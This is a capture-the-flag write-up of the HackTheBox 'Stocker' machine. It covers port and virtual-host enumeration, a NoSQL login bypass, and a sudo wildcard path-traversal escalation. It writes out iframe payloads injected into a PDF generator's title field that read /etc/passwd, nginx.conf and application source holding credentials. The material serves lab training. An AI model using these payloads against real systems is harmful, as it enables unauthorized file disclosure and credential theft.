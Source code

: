 ```yaml
---
title: "Stocker | HackTheBox"
collection: publications
permalink: /publication/stocker
excerpt: 'This is a free machine from HackTheBox'
date: 2023-03-02
venue: '03-02'
#paperurl: 'http://academicpages.github.io/files/paper1.pdf'
#citation: 'Your Name, You. (2009). &quot;Paper Title Number 1.&quot; <i>Journal 1</i>. 1(1).'
---
```


![header](/images/stocker.png)

**LINK:** [Stocker](https://app.hackthebox.com/machines/Stocker)

---

## Enumeration : 

Let's scan the target with nmap : 

```bash
# nmap -sC -sV -T4 10.10.11.196     
Starting Nmap 7.92 ( https://nmap.org ) at 2023-03-01 11:20 EST
Nmap scan report for 10.10.11.196
Host is up (0.61s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3d:12:97:1d:86:bc:16:16:83:60:8f:4f:06:e6:d5:4e (RSA)
|   256 7c:4d:1a:78:68:ce:12:00:df:49:10:37:f9:ad:17:4f (ECDSA)
|_  256 dd:97:80:50:a5:ba:cd:7d:55:e8:27:ed:28:fd:aa:3b (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://stocker.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.99 seconds
```

* We got 2 open ports : 80 (nginx web server) and 22 (SSH)

**Subdomains :**

```bash
# ffuf -u http://stocker.htb/FUZZ -c -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt        

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

js                      [Status: 301, Size: 178, Words: 6, Lines: 8]
css                     [Status: 301, Size: 178, Words: 6, Lines: 8]
img                     [Status: 301, Size: 178, Words: 6, Lines: 8]
fonts                   [Status: 301, Size: 178, Words: 6, Lines: 8]
```

* nothing useful.

**Vhosts :**

```bash

ffuf -u http://stocker.htb -H "HOST: FUZZ.stocker.htb" -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt  -fc 301

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://stocker.htb
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.stocker.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response status: 301
________________________________________________

dev                     [Status: 302, Size: 28, Words: 4, Lines: 1]
```

## Foothold :

* let's add the dev.stocker.htb to /etc/hosts and start inspecting the page : 
![stocker1](/images/stocker1.png)

* the first thing came to my mind is SQLi, i tried with a wordlist contains payloads to bypass a login page, but nothing worked until i noticed this response header

![response](/images/header5.png)

* I did some reasearch and i found that using **Express** as a back-end framework is a popular MongoDB stack design, and i know that MongoDB is a NOSQL database.
[Read more](https://ruptura-infosec.com/blog/nosql-noproblem/)

* Thanks to [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass) i was able to bypass the login page and got redirected to /stock

![stock](/images/stocker3.png)

* I spent some time exploring the website, i noticed that when i add an item to the cart and the purchase is successful, the response contains an order_id 

![orderid](/images/stocker16.png)

* it renders out a PDF file in /api/po/order_id, when i saw that the title of the item is rendered to the pdf, i start manipulating with is until i was able to read a file that i wasn't supposed to.
![request](/images/stocker4.png)
![theresponse](/images/stocker5.png)

* Now it's time to read the /etc/passwd :

```bash
"title":"<iframe src=file:///etc/passwd height=1000px width=800px</iframe>
```


![etcpasswd](/images/stocker7.png)

* Now i got a username but i still need a password or a SSH key.
* Since it's a nginx web server, let's read the nginx.conf file 

```bash
"title":"<iframe src=file:///etc/nginx/nginx.conf height=1000px width=800px</iframe>
```

![nginx](/images/stocker8.png)

* Now i know where the dev.stocker.htb is located, i took a guess of the file name

```bash
"title":"<iframe src=file:///var/www/dev/index.js height=1000px width=800px</iframe>
```

![conffile](/images/stocker9.png)
![passwd](/images/stocker10.png)


* Now i have a username and a password, let's login using SSH

![ssh](/images/stocker11.png)

## Privilege Escalation: 

* First thing to do is to check sudo permissions

![sudo](/images/stocker12.png)

* we don't have permission to write or modify in /usr/local/scripts

![permission](/images/stocker13.png)

* But since we have a wildcard before __.js__ we can use a path traversal to execute a file we have directory write access to, and the best directory is __/tmp__

* I created a file called __exploit.js__ 
![exploit](/images/stocker14.png)

*Now it's time to execute it with sudo permission

![root](/images/stocker15.png)
